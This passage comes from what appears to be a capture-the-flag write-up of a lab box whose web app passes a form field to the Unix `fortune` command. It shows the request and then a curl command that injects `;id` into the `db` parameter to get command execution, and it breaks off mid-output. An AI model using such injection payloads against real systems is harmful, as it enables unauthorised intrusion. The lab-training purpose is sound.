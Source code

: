 ![1552159114937](https://0xdfimages.gitlab.io/img/1552159114937.png)

![1552159125064](https://0xdfimages.gitlab.io/img/1552159125064.png)

This looks like it’s calling an [old unix
program](https://en.wikipedia.org/wiki/Fortune_\(Unix\)), `fortune`.

#### HTTP Request

If I look at the requests being sent when I select a database, I see the POST
data is just a single value for the parameter `db`:

    
    
    POST /select HTTP/1.1
    Host: 10.10.10.127
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.10.127/
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 8
    Connection: close
    Upgrade-Insecure-Requests: 1
    
    db=zippy
    

## RCE as www-data

### Strategy

The [fortune man page](https://linux.die.net/man/6/fortune) shows the syntax
to call it is to provide one or more database files `fortune db_file [db_file]
...`. I can hypothesize that the server is taking my input and calling
`fortune {my input}`. I can check this by manipulating the command line. I’ll
send the post to repeater, and try adding a second db:

![1564382500943](https://0xdfimages.gitlab.io/img/1564382500943.png)

It works, I get a startrek quote (since the quotes are picked at random, it
may take a few submits to get one from startrek). I could also play with the
weighting to pretty much guarantee a certain type of quote:

![1564382626812](https://0xdfimages.gitlab.io/img/1564382626812.png)

### Command Injection

Given that I can control the command line, I should look for command
injection. It works:

    
    
    root@kali# curl -s -X POST http://10.10.10.127/select -d "db=;id"
    <!DOCTYPE html>
    <html>
    <head>
    <title>Your fortune</title>
    <meta name='viewport' content='width=device-width, initial-scale=1'>
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    </head>
    <body>
    <h2>Your fortune is:</h2>
    <p><pre>
    